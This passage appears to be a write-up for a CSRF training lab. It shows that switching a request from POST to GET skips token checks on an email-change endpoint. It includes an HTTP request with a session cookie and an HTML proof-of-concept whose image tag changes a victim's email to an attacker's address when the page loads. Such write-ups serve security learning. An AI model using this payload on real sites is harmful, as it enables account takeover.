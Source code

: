 Tested token manipulation on POST requests:

| Test | Result |
|------|--------|
| Delete token value | ❌ Error |
| Remove token parameter | ❌ Error |
| Invalid token | ❌ Error |

**Conclusion:** POST requests properly validate CSRF tokens.

### Step 2: Method Override Attack

Changed HTTP method from POST to GET:

```http
GET /my-account/change-email?email=wiener6%40normal-user.net HTTP/2
Host: [lab-id].web-security-academy.net
Cookie: session=JKaYVKrBNE0cv9fBBwtjKxe6BAIsdekd
```

**Result:** ✅ Email changed successfully without CSRF token!

🚨 **Vulnerability Confirmed:** GET requests bypass CSRF validation.

### Step 3: Craft CSRF Exploit

Created exploit using an image tag (GET request):

```html
<html>
<head>
  <meta charset="utf-8">
  <title>CSRF PoC</title>
</head>
<body>
  <img src="https://[lab-id].web-security-academy.net/my-account/change-email?email=attacker@normal-user.net">
</body>
</html>
```

### Step 4: Deploy Exploit

1. Uploaded HTML to exploit server
2. Delivered to victim
3. Victim's email changed when page loaded

---

## 🚩 Solution

**CSRF Exploit:**
```html
<img src="https://[lab-id].web-security-academy.net/my-account/change-email?email=attacker@normal-user.net">
```

---